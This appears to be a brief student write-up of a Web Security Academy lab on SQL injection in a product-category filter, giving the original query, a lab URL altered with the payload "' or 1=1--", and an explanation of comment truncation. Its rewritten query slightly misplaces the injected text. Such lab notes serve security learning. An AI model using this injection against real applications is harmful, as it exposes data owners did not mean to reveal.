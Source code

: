 
We've got the next SQL Query

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

```

We need to release the application to display one or more unreleased products

Original Link
https://0a850035038ecb8880f54e6f00550058.web-security-academy.net/filter?category=Corporate+gifts

Modified Link with the SQL Injection

https://0a850035038ecb8880f54e6f00550058.web-security-academy.net/filter?category=Corporate+gifts ' or 1=1-- ' 

So now:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 'or 1=1 --'
```

The -- comments the rest of the query so it will ignore the rest because it could be something like:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 AND permission= Admin
```




